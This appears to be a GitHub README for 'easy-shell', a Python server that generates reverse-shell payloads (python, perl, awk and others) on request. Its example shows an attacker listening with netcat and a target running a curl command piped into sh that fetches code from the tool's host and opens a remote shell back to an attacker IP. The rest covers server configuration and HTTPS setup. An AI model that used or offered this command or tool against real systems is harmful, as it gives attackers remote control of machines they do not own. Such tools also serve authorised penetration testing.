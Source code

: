 # easy-shell

A pure Python script to easily get a reverse shell.

### How it works?

After sending a request, it generates a payload with different commands available to get a reverse shell (python, perl, awk, and more).

### Example

##### Attacker machine
```
$ whoami
attacker

$ nc -l 8080
sh-4.4$ whoami
centos
sh-4.4$ pwd
/home/centos
```

##### Target machine
```
$ whoami
target

$ curl http://easy-shell.xyz/192.168.0.52:8080 | sh
```

### Running the server

Edit the following lines on ```easy_shell.py``` according to your needs:

```
PORT = 8080
DOMAIN = "http://127.0.0.1:{}".format(str(PORT))

HTTPS = False
KEY_FILE = "keyfile.key"
CERT_FILE = "certfile.cert"
```

If you want to run it over HTTPS, execute the following commands:

```
$ openssl genrsa 2048 > keyfile.key && chmod 400 keyfile.key
$ openssl req -new -x509 -nodes -sha256 -days 365 -key keyfile.key -out certfile.cert
```

### Used modules

- [ssl](https://docs.python.org/3/library/ssl.html#module-ssl)
- [http.server](https://docs.python.org/3/library/http.server.html#module-http.server)
- [socketserver](https://docs.python.org/3/library/socketserver.html#module-socketserver)
- [urllib.parse](https://docs.python.org/3/library/urllib.parse.html#module-urllib.parse)

### License

This project is licensed under the 3-Clause BSD License.